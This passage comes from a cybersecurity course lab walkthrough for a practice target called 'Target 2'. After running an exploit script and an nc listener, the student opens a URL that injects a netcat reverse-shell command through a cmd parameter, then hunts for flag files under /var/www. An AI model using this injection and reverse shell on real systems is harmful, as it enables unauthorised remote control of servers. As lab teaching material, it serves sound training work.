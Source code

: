       - Then, execute the script: `bash exploit.sh`.

      - Next, start an ncat listener with `nc -lvp 4444`

      - Finally, navigate to the following URL in the browser: `http://192.168.1.115?cmd=nc%20<Kali IP>%204444%20-e%20/bin/bash`.

7. Using the shell you've opened on `Target 2`, find a `flag` in `/var/www`.

    ```bash
    $ ls /var/www
    flag2.txt
    ```

8. Next, find a flag in the WordPress uploads directory.
     
     - **Hint**: Use the `find` command: `find /var/www -type f -iname 'flag*'`

      ```bash
      $ find /var/www/html -type f -iname 'flag*'
      /var/www/html/wp-content/uploads/2018/11/flag3.txt
      ```

9. If you find all three flags -- congratulations! There is a fourth, but escalating to `root` is extremely difficult. For now, move on to completing a report about Target 2.

---
© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.
